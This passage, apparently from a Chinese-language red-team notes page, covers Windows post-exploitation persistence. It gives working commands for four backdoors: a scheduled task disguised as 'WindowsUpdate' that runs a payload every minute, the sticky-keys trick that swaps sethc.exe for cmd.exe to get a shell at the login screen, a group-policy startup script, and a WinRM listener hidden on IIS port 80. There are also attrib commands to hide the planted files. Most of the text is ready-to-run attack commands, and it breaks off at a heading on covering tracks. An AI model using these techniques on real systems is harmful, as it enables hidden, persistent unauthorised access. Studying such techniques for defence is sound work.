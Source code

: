 通过计划任务周期执行后门程序

1. 上传后门程序

2. 创建计划任务
    ```
    schtasks /create /tn WindowsUpdate /tr "C:\Windows\Temp\payload.exe" /sc minute /mo 1
    ```

3. 隐藏后门程序
    ```
    attrib "C:\Windows\Temp\payload.exe" +h +s
    ```

- 删除计划任务
    ```
    schtasks /delete /tn WindowsUpdate
    ```

**shift 后门**

在 windows 登录界面处，连续按5次 shift 来启动粘滞键，启动 sethc 程序

1. 拷贝文件
    ```
    copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
    copy c:\windows\system32\cmd.exe c:\windows\system32\dllcache\sethc.exe
    ```

2. 隐藏文件
    ```
    attrib C:\Windows\System32\sethc.exe +h +s
    attrib C:\Windows\System32\dllcache\sethc.exe +h +s
    ```

**LGP 后门**

开始->运行->键入"gpedit.msc"->本地组策略编辑器->window设置(system)->脚本->启动->属性

![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/2.png)

**WinRM + IIS URI 监听**

在 IIS 监听 80 端口的情况下，可以通过设置 WinRM 监听端口为 80，再设置监听 URI 的方式来复用 80 端口。以此作为隐蔽的后门。

```
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{URLPrefix="test"}
```

![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/5.png)

![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/6.png)

---

### 痕迹清理
